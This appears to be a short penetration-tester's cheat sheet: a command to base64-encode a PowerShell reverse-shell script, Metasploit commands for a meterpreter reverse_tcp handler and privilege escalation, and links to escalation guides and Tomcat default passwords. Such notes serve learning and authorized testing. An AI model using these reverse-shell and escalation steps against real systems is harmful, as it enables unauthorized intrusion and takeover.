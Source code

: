 Encoded payload:

- cat Invoke-PowerShellTcp.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard

## Shells

https://www.yeahhub.com/msfvenom-all-payload-examples-cheatsheet-2017/

## Metasploit

**Handler**
- msf> use multi/handler
- msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp
- msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55)

**Privilige Escalation 1**
- getsystem

**Privilige Escalation 1**
- multi/recon/local_exploit_suggester
- background
- set session 1
- run

## Privilige Escalation

-Windows

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

https://guif.re/windowseop?fbclid=IwAR2fwsD6D7XjFhZbD4IGSTHtQkGs5D7HXEwVEnCYSQEDWzsuqds8geOi7uc#EoP%208:%20Kernel%20vulnerabilities

https://www.scip.ch/en/?labs.20181011

- Linux
https://gtfobins.github.io/

# Appache Tomcat

- Default Credentials

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

